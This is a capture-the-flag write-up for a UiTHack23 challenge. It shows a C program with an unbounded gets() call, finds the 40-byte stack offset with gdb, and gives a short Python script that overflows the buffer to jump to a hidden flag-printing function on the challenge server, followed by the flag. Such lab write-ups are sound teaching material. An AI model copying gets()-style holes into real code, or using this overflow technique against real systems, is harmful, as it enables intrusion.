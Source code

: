 # Mp3 Player
This CTF challenge is a BOF exploit that redirects `rip` to some kind of `win()`. In this case, it is `call_me_maybe()`. 
## The Challenge
We found an old mp3 player laying around and decided to connect it to the internet for everyone to listen to its good ol' hits.
However, we might have messed up some of the instructions when setting it up...

You can connect to the Mp3 player with netcat
`$ nc motherload.td.org.uit.no 8006`

## The Solution
We can look at the given files `mp3_player.c` and `mp3_player` binary. It is crucial to make sure that the architecture of the computer is `x86_64` to be able to seamlessly execute the binary.
If one does not have such, one must configure their, for example, M1 mac to have some way to interpret the binary by using `qemu` along with `gdb` for easier reverse engineering. Opening the former, we are met with the following:
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

void ignore_me(){
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
}

void timeout(int signal){
  if (signal == SIGALRM){
    printf("You timed out!\n");
    _exit(0);
  }
}

void ignore_me_timeout(){
  signal(SIGALRM, timeout);
  alarm(60);
}

void menu(){
  puts("Welcome to my online MP3 Player!\n");
  puts("Please choose the name of the song you want to play:\n");
  puts("- Photograph - Nickelback\n- Lose Yourself - Eminem\n- Mamma Mia - ABBA");
}

void photograph(){
  puts("So you can keep me");
  puts("Inside the pocket of your ripped jeans");
  puts("Holding me closer 'til our eyes meet");
  puts("You won't ever be alone");
}

void lose_yourself(){
  puts("You better lose yourself in the music");
  puts("The moment, you own it, you better never let it go");
  puts("You only get one shot, do not miss your chance to blow");
  puts("This opportunity comes once in a lifetime");
}

void mamma_mia(){
  puts("Mamma mia, here I go again");
  puts("My my, how can I resist you?");
  puts("Mamma mia, does it show again?");
  puts("My my, just how much I've missed you");
}

void call_me_maybe(){
  char chr;
  FILE *f = fopen("flag.txt", "r");
  chr = fgetc(f);
  while(chr != EOF){
    printf("%c", chr);
    chr = fgetc(f);
  }
  fclose(f);
}

void play_song(char *song){
  if(!strcmp(song, "Photograph")){
    photograph();
  }
  else if(!strcmp(song, "Lose Yourself")){
    lose_yourself();
  }
  else if(!strcmp(song, "Mamma Mia")){
    mamma_mia();
  }
  else {
    puts("Could not play the requested song");
  }
}

int main(){
  ignore_me();
  ignore_me_timeout();

  char song[30];
  menu();
  gets(song);
  play_song(song);
  return 0;
}
```
Nowhere in the program is `call_me_maybe()` function called. However, there is the vulnerable `gets()` function with an unrestricted amount of accepting input. Looking into the manual pages of `gets()`, one can read about the known vulnerabilities of this function especially when input sizes are not controlled.
This function would allow us to overflow the stack and redirect program execution. The `rip` pointer which points to the address of machine instruction lies right below the stack-buffer. So, by inspecting how much or the `offset` of the stack-buffer, we can control for the value that the `rip` points to.
We can find the offset using `gdb` by having some `cyclic` input to the buffer.

```console
┌──(ericjoshua㉿kali)-[~/Downloads]
└─$ qemu-x86_64-static -g 8888 mp3_player
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaa
```
Analyzing this in gdb with `info registers`, we obtain the following:
```console
[!] Cannot access memory at address 0x6161616c6161616b
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x6161616c6161616b in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  info registers
rax            0x0                 0x0
rbx            0x40007fff98        0x40007fff98
rcx            0xc00               0xc00
rdx            0x1                 0x1
rsi            0x1                 0x1
rdi            0x4000a24a10        0x4000a24a10
rbp            0x6161616a61616169  0x6161616a61616169
rsp            0x40007ffe90        0x40007ffe90
r8             0x0                 0x0
r9             0x0                 0x0
r10            0x4000868ee8        0x4000868ee8
r11            0x40009a54d0        0x40009a54d0
r12            0x0                 0x0
r13            0x40007fffa8        0x40007fffa8
r14            0x0                 0x0
r15            0x4000833020        0x4000833020
rip            0x6161616c6161616b  0x6161616c6161616b
```
Notice `rip => 0x6161616c6161616b` which suggests that `rip` starts receiving values at the input `0x6b` or `k`, don't forget little-endianness. This is at the 41st byte. In other words, our offset must be `40` bytes.
Great! the only thing we don't know is the address of call_me_maybe. This is easy enough with `disassemble call_me_maybe` which gives us the address `0x000000000040140f`. The reason for such a big address is because we are dealing with
a `64-bit` architecture. We can then write a simple exploit script.

```python
offset = 40
winaddress = "\x0f\x14\x40\x00\x00\x00\x00\x00" # 0x000000000040140f (little-endian)
print('A'*offset + winaddress)
```

We get the flag:
```console
┌──(ericjoshua㉿kali)-[~]
└─$ python3 exploit.py | nc motherload.td.org.uit.no 8006
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song
UiTHack23{H3r35_MY_4dDr355_50_caLL_M3_may83}
```
The flag is: `UiTHack23{H3r35_MY_4dDr355_50_caLL_M3_may83}`
